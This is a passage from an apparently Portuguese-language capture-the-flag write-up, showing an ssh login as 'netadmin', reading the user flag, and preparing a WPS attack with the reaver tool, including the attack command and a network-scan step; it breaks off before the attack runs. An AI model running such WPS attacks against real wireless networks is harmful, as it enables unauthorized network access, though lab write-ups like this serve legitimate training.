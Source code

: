 ![Loggin via ssh com o usuário netadmin](image-4.png)

próximo passo é ver o que temos nesse diretório. Para isso use o comando ls.

```shell
ls
```

e achamos nossa primeira flag que é o arquivo user.txt, para ver o conteúdo, use o comando cat.

```shell
cat user.txt
```

O próximo passo é explorar a vulnerabilidade **WPS**, para isso iremos usar um exploit que já tem instalado nessa máquina: **reaver**. Na documentação do [reaver](https://github.com/t6x/reaver-wps-fork-t6x), é mostrado que para explorar essa falha é necessário usar o seguinte comando:

```shell
reaver -i wlan0mon -b 00:90:4C:C1:AC:21
```

em que **-i** é a interface e **-b** é o bssid do alvo, para descobrir isso, iremos usar:

```shell
iwscan list
```
